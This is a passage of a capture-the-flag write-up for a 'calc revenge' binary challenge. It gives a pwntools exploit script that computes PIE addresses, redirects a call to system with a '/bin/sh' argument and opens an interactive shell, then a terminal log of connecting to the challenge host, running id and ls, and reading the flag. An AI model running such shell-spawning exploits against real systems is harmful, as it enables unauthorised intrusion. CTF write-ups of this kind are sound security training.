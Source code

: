 ```python
faves=sum+0x18

log.info('sum :' + hex(sum))
log.info('faves :' + hex(faves))

w1n=pie+0x0000000000009E4
system=pie+0x100
log.info('w1n :' + hex(w1n))
log.info('system :' + hex(system))

bin_sh=0x68732f6e69622f

enter(b'0', str(bin_sh).encode(), str(bin_sh).encode())
enter(b'3',str(v_list+8).encode(), str(v_list+8).encode())

# enter(b'1', str(w1n).encode(), str(w1n).encode())
enter(b'1', str(system).encode(), str(system).encode())

printsum()

io.interactive()
```
spawn shell & get flag:

```bash
─   ~/CTF/wannagame/calc/revenge                                                                                                               02:51:19 ─╮
╰─❯ python3 xpl.py                                                                                                                                          ─╯
[+] Opening connection to 45.122.249.68 on port 20018: Done
[*] '/home/w1n-gl0ry/CTF/wannagame/calc/revenge/chall_revenge'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] pie_base :0x56172c10e000
[*] v_list array :0x56172c111040
[*] sum :0x56172c111080
[*] faves :0x56172c111098
[*] w1n :0x56172c10e9e4
[*] system :0x56172c10e100
[*] Switching to interactive mode
$ id
uid=1001(user_revenge) gid=1001(user_revenge) groups=1001(user_revenge)
$ cd /home/user_revenge
$ ls
chall_revenge
flag-769f85d66029625591d2e6b1bf75c5864b134b2901fa1ef5cf49c2eece7da15a.txt
$ cat flag-769f85d66029625591d2e6b1bf75c5864b134b2901fa1ef5cf49c2eece7da15a.txt
W1{g00d_exploit_idea!!!}
```
